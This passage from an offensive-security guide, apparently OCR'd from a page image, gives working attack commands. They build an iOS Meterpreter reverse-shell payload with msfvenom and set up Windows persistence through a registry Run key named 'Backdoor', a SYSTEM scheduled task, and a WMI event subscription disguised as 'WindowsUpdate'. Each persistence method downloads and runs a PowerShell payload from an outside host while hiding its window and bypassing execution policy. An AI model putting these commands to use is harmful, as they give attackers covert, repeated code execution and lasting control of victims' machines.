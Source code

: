 ### iOS Payload Creation (Limited Scenarios)
```bash
# Create iOS payload (requires developer account)
msfvenom -p apple_ios/aarch64/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o payload.ipa

# Set up a malicious configuration profile
# Use Apple Configurator or third-party MDM tools
```

### iOS Security Testing (Ethical Approach)
```bash
# SSL Pinning Bypass (on jailbroken devices)
# Install SSL Kill Switch 2 via Cydia

# Network traffic interception
# Configure Burp Suite as proxy
# Install Burp CA certificate on device

# Application data analysis
ssh root@192.168.1.12
find /var/mobile/Containers/Data/Application -name "*.db" -o -name "*.plist"

# Analyze binary protections
otool -l [binary_path] | grep -A 4 LC_ENCRYPT
```

## Establishing Persistence

### Windows Persistence Techniques
```bash
# Registry startup
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NonInteractive -ExecutionPolicy Bypass -c 'IEX ([System.Net.WebClient]::new()).DownloadString(''http://192.168.1.100/payload.ps1'')'"

# Create a scheduled task
schtasks /create /tn "SystemCheck" /tr "powershell.exe -WindowStyle hidden -NonInteractive -ExecutionPolicy Bypass -c 'IEX ([System.Net.WebClient]::new()).DownloadString(''http://192.168.1.100/payload.ps1'')'" /sc minute /mo 30 /ru "SYSTEM"

# WMI Event Subscription
# First stage - create the consumer
$ConsumerCommand = @"
powershell.exe -WindowStyle hidden -NonInteractive -ExecutionPolicy Bypass -c 'IEX ([System.Net.WebClient]::new()).DownloadString(''http://192.168.1.100/payload.ps1'')'
"@
$ConsumerName = "WindowsUpdateConsumer"
$Consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{Name=$ConsumerName; CommandLineTemplate=$ConsumerCommand}

# Second stage - create the timer
$TimerName = "WindowsUpdateTimer"
$Timer = Set-WmiInstance -Class __IntervalTimerInstruction -Namespace "root\subscription" -Arguments @{IntervalBetweenEvents=3600; TimerId=$TimerName}

# Third stage - bind them together
$FilterName = "WindowsUpdateFilter"
$Filter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{Name=$FilterName; EventNameSpace="root\cimv2"; QueryLanguage="WQL"; Query="SELECT * FROM __TimerEvent WHERE TimerID='$TimerName'"}
$FilterToConsumerBinding = Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=$Filter; Consumer=$Consumer}
```